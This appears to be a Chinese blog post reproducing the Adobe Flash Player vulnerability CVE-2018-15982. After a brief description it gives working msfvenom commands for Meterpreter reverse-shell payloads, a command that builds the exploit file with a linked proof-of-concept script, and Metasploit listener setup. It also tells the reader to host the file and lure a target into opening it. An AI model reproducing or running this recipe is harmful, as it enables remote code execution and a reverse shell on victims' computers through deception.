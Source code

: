 ```yaml
---
title: CVE-2018-15982 Adobe Flash Player 漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020/3/26 23:00:00
id: CVE-2018-15982
---
```


# 漏洞介绍
Adobe已发布适用于Windows，macOS，Linux和Chrome OS的Adobe Flash Player安全更新。这些更新解决一个关键的Adobe Flash Player的漏洞和一个重要的Adobe Flash Player的安装程序的漏洞。成功利用可能导致当前用户的上下文中的任意代码执行和权限提升。

# 漏洞演示

<iframe height="470" width="800" src="//player.bilibili.com/player.html?aid=370087987&bvid=BV1zZ4y1j7FS&cid=173934092&page=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

# 木马制作

Poc: <https://github.com/yangb92/CVE-2018-15982_EXP>
```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.22 LPORT=4444 -f raw>86.bin 
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.22 LPORT=4444 -f raw>64.bin
python CVE_2018_15982.py -i 86.bin -I 64.bin
```
将木马文件托管在http服务器上面, 将链接分享给目标,诱导目标打开.

# MSF监听
```
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp_rc4
set LHOST 192.168.1.22
exploit
```
